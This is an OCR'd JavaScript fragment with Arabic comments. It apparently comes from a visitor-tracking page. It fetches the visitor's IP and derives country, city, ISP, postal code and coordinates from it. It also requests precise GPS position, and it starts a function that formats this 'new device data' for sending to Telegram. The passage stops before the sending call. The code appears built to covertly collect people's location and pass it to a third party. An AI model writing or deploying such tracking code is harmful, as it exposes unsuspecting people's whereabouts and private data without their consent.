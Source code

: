         // جلب معلومات الموقع عبر IP
        function fetchIPAndLocation() {
            return fetch('https://api.ipify.org?format=json')
                .then(response => response.json())
                .then(ipData => {
                    const ip = ipData.ip;
                    return fetch(`https://ipapi.co/${ip}/json/`)
                        .then(response => response.json())
                        .then(locationData => {
                            return {
                                ip: ip,
                                country: locationData.country_name || 'غير معروف',
                                countryCode: locationData.country || 'غير معروف',
                                city: locationData.city || 'غير معروف',
                                timezone: locationData.timezone || 'غير معروف',
                                isp: locationData.org || 'غير معروف',
                                latitude: locationData.latitude || 'غير معروف',
                                longitude: locationData.longitude || 'غير معروف',
                                region: locationData.region || 'غير معروف',
                                postalCode: locationData.postal || 'غير معروف'
                            };
                        });
                });
        }
        
        // جلب الموقع الدقيق
        function fetchPreciseLocation() {
            return new Promise((resolve) => {
                if ('geolocation' in navigator) {
                    navigator.geolocation.getCurrentPosition(
                        position => {
                            resolve({
                                preciseLatitude: position.coords.latitude,
                                preciseLongitude: position.coords.longitude,
                                accuracy: position.coords.accuracy + ' متر'
                            });
                        },
                        () => {
                            resolve(null);
                        }
                    );
                } else {
                    resolve(null);
                }
            });
        }
        
        // إرسال البيانات إلى Telegram
        function sendToTelegram(data) {
            // تحضير الرسالة
            let message = `📊 *بيانات جهاز جديد* 📊\n\n`;
            